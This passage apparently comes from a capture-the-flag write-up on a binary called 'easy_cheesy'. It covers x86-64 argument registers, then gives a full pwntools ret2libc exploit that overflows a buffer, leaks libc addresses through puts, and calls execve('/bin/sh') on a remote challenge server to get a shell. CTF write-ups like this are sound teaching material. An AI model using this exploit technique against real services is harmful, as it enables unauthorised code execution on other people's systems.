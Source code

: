 `arg1 = RDI`

`arg2 = RSI`

`arg3 = RDX`

`arg4 = RCX`

The list goes on, but we only need to care about the first few. In this case, RDX, arg3 of execve(), was already pointing to NULL when I called the function, so I didn't need to set it to anything. RSI on the other hand, which is arg2 to execve(), was not set to NULL. So I had to grab a gadget to solve this issue. The only one I could find was `pop rsi; pop r15; ret;`. So my ROPchain had to be a little longer in order for me firstly set RSI, then set R15, then ret back to execve(). You can see how impacted the payload, but all I had to do was give RSI and R15 the value of 0.

```python
from pwn import *

cheese = remote("35.246.53.125", 10005) #The location of the binary to be run
context = ELF("./easy_cheesy") #Our local binary, where we'll grab symbols from
libc = ELF("./libc6_2.31-0ubuntu9.1_amd64.so")

main = p64(context.symbols["main"])
pop_rdi = p64(0x401303) #An RDI gadget in the binary
pop_rsi = p64(0x401301) #An RSI gadget in the binary
putsGOT = p64(context.got["puts"]) #The real address of puts() in memory
putsPLT = p64(context.plt["puts"]) #The PLT address of puts(). Jumping here will call puts() for us.
fgetsGOT = p64(context.got["fgets"])
junk = (("A")*72).encode() #Encode our payload so we can concatenate it with the bytes-format of packed addresses

stage_1 = junk + pop_rdi + putsGOT + putsPLT + main
cheese.sendline(stage_1) #Send it
cheese.recvline()
leaked_puts = u64(cheese.recvline()[:-1].ljust(8, b'\x00')) #Grab the output from puts(), chop off the nullbyte
log.info(f'Leaked puts: {hex(leaked_puts)}') #We now have a useable address

stage_2 = junk + pop_rdi + fgetsGOT + putsPLT + main #Same idea, but with fgetsGOT address instead of puts()
cheese.sendline(stage_2)
cheese.recvline()
leaked_fgets = u64(cheese.recvline()[:-1].ljust(8, b'\x00'))
log.info(f'Leaked fgets: {hex(leaked_fgets)}')

libc_puts = 0x875a0 #From libc.rip
libc_base = (leaked_puts - libc_puts) #Simple maths
log.info(f'Libc base is: {hex(libc_base)}')

execve = libc_base + libc.sym["execve"] #Grab execve's offset from libc and add it to our leaked libc_base, so we can calculate execve's real address.
binsh = libc_base + 0x1b75aa
log.info(f'execve is at: {hex(execve)}')
log.info(f'binsh is at: {hex(binsh)}')

stage_3 = junk + pop_rdi + p64(binsh) + pop_rsi + p64(0) + p64(0) +  p64(execve)
cheese.sendline(stage_3)

cheese.interactive() #So our connection doesn't die
```
